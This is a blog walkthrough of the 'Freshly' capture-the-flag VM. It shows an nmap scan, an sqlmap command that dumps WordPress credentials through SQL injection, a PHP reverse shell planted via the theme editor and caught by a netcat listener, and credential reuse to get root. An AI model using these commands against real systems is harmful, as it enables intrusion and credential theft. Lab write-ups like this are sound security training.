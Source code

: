 ```yaml
---
layout: blog_item
title: "Freshly Walkthrough"
date: "2015-06-14"
author: Arr0way
description: 'Freshly - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The goal of this challenge is to break into the machine via the web and find the secret hidden in a sensitive file. If you can find the secret, send me an email for verification.

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.109

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>64 Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
               <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:


![login form sqli](/img/blog/freshly/login.png)

## SQL Injection  

The discovered form was vulnerable to a time-based SQL injection, SQLMap was used to expose the following databases:


{% highlight bash %}

available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

{% endhighlight %}

SQLMap was used to dump the **wordpress8080** database:


{% highlight bash %}

sqlmap -o -u "http://10.0.1.109/login.php" --forms -D wordpress8080 -T users --risk 1 --dbms=mysql --dump

{% endhighlight %}

Discovered credentials:

{% highlight bash %}

Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+

{% endhighlight %}

## Wordpress - Reverse PHP Shell

Wordpress was accessible on port <code>443</code> and port <code>8080</code>. Authentication was successful using the discovered credentials and a PHP reverse shell was introduced to the sites source code via the wordpress theme editor.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Username</th>
      <th>Password</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><b>admin</b></p></pc>
           </td>
           <td>
               <pc><p><code>SuperSecretPassword</code></p></pc>
           </td>
        </tr>
      </tbody>

</table>
</div>

![wordpress reverse php shell](/img/blog/freshly/wordpress-php-shell.png)

A reverse shell successfully connected back:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443           
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.109] 37912
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 13:26:49 up 46 min,  0 users,  load average: 0.00, 0.01, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}


## Privilege Escalation

Account credential reuse from the Wordpress admin password <code>SuperSecretPassword</code> allowed <code>su -</code> to escalate privileges to root.

{% highlight bash %}

$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@Freshly:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

daemon@Freshly:/$ su -
su -
Password: SuperSecretPassword

root@Freshly:~# id
id
uid=0(root) gid=0(root) groups=0(root)

{% endhighlight %}

## Post Exploitation Enumeration  

The file <code>/etc/passwd</code> contained the text:

{% highlight bash %}

root@Freshly:/# tail -n 5 /etc/passwd
tail -n 5 /etc/passwd
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"

{% endhighlight %}

Additionally the file <code>/etc/shadow</code> had incorrect permissions allowing a non privileged user read access, allowing for offline password cracking using Hashcat / JTR.

Thanks for the VM :)
